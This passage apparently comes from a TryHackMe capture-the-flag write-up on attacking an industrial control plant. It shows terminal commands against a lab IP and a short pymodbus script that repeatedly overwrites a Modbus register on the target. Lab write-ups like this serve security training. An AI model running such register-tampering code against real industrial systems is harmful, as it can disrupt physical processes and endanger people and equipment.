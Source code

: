 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# export RHOSTS=10.10.30.39

┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# python3 discovery.py $RHOSTS         
[1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[...]
```

- Run `set_register.py` to modify one of the registies:

**set_register.py:**
```py
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
register = int(sys.argv[2])
value = int(sys.argv[3])
client = ModbusClient(ip, port=502)
client.connect()

while True:
        client.write_register(register, value)
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# python3 set_register.py $RHOSTS 1 1
```

```
[1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[...]
```
